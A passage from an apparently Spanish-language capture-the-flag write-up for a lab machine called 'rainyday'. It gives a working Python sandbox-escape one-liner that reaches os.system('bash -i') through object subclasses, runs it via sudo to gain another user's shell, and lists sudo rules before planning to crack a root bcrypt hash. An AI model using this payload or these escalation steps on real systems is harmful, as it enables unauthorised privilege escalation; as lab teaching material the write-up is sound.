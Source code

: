 Parece que hay algunas palabras clave que se filtran, sobre todo "import", porque no puedo ejecutar nada que como import dentro de ella.

Encontré esta [página](https://hexplo.it/post/escaping-the-csawctf-python-sandbox/) que me fué muy útil

Utilizando su método y manejando para tener el número, fué 144

```plaintext
jack@rainyday:~$ python3
>>> import warnings
>>> [].__class__.__base__.__subclasses__().index(warnings.catch_warnings)
144
>>> 
```

Bien, entonces necesitamos de alguna manera hacer uso de esto para importar la librería os. Técnicamente podría importar un carácter de cada una de las clases y luego deletrear 'import os', pero eso sería... muy muy largo.

Tiene que haber una manera de cargar el módulo que queremos. Finalmente, después de unas horas de trastear con esto, ¡lo conseguímos!

```plaintext
jack@rainyday:~$ echo 'print(().__class__.__mro__[1].__subclasses__()[144].__init__.__globals__["__builtins__"]["__loader__"]().load_module("builtins").__import__("os").system("bash -i"))' > /tmp/test.txt
jack@rainyday:~$ sudo -u jack_adm /usr/bin/safe_python /tmp/test.txt 
jack_adm@rainyday:/home/jack$ 
```

### hash_password.py

Después de conseguir jack_adm, podemos checkear privilegios de `sudo` para ver esto

```plaintext
jack_adm@rainyday:/home/jack$ sudo -l
Matching Defaults entries for jack_adm on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User jack_adm may run the following commands on localhost:
    (root) NOPASSWD: /opt/hash_system/hash_password.py
jack_adm@rainyday:/home/jack$ 
```

Otro desafío Sudo a ciegas en Python. Excepto, todo lo que esto hace es hashear contraseñas para nosotros en formato Bcrypt.

```plaintext
jack_adm@rainyday:/home/jack$ sudo /opt/hash_system/hash_password.py
Enter Password> 123
[+] Hash: $2b$05$yENY3M6EKuWI70jdL20Oc.M41cMT4OHveqEUhsbf3Cuxiwj6dIu/2
jack_adm@rainyday:/home/jack$ 
```

Esto es, sin duda, similar a los hashes iniciales que encontramos en el sitio web. Probablemente necesitemos crackear el hash de root que encontramos mucho antes para conseguir un shell de root vía SSH.

